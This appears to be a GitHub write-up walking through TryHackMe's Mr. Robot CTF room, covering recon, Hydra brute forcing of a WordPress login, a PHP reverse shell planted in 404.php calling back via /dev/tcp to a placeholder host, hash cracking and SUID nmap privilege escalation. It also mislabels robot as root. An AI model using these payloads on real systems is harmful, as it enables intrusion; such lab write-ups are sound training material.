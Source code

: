 # Mr. Robot CTF Walkthrough (TryHackMe)

## Overview

This write-up documents my approach to completing the Mr. Robot CTF room on TryHackMe. It’s a beginner-to-intermediate challenge focused on enumeration, password cracking, and privilege escalation — all wrapped in a Mr. Robot-themed environment.

---

## 1. Reconnaissance

**Target IP:** `10.10.X.X` (your room's IP)

We begin by scanning for open ports:

```bash
nmap -sS -sV...
```
**Results:**

Port 80 (HTTP) — Apache running ect...

## Step 2: Explore Web Content

Visit the web server via browser:
```bash
http://<target_ip>

Check the robots.txt file:

http://<target_ip>/robots.txt
```
**Findings:**

fsocity.dic — a large dictionary file

key-1-of-3.txt — First flag

## Step 3: Discover Login Portal

Using browser or tools like dirb, enumerate hidden paths.

**Find WordPress Login:**

http://<target_ip>/wp-login.php

## Step 4: Brute Force WordPress Login (Hydra)

Use hydra with the fsocity.dic as username and password list.

hydra -L fsocity.dic -P fsocity.dic <target_ip> http-post-form...

Found a valid username and a working password.

## Step 5: Get Admin Access to WordPress

Log in to WordPress admin:

http://<target_ip>/wp-login.php

Navigate to:
Appearance > Theme Editor > 404.php

## Step 6: Inject Reverse Shell

Insert a basic PHP reverse shell into 404.php. When accessed via browser, it will call back to your listener.

Payload example (obfuscated):

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1'"); ?>

Start listener on your machine:

nc -lvnp YOUR_PORT

Then visit:

http://<target_ip>/404.php

### Step 7: Privilege Escalation - Get Second Flag

You’re now inside the system as a non-privileged account.

Check /home/robot/key-2-of-3.txt and determined can't access file as non-privileged account by seeing blank page when trying to access it.
You’ll need to become robot the root user to access the protected file.

Also, find password.raw-md5.

Cracked md5 file using hashcat to retrieve robot's password.

Then escalated to the privileged root user:

su robot

## Step 8: Root Access - Capture Final Flag

Now as robot, escalate privileges. Check for unusual binaries with SUID permission:

find / -perm -4000 2>/dev/null

Find that nmap has SUID bit set meaning the nmap program can be run with root powers, even by a normal user.

Launch interactive shell using legacy nmap mode:

nmap --interactive...

Now you are root. Grab the final flag:

cat /root...

## Completion

The box has been successfully rooted.

## Summary

**This lab demonstrated:**

Wordlist-based brute forcing

WordPress exploitation

Shell injection through editable templates

Basic privilege escalation

Safe post-exploitation practices

Educational Use Only — do not apply these techniques outside of a legal, authorized environment.

## ⚠️ **EDUCATIONAL USE ONLY**

> This project is for **educational and ethical hacking purposes only**.  
> Do **NOT** use these techniques on any systems you do not own or have explicit permission to test.  
> Unauthorized hacking is **illegal** and punishable by law.
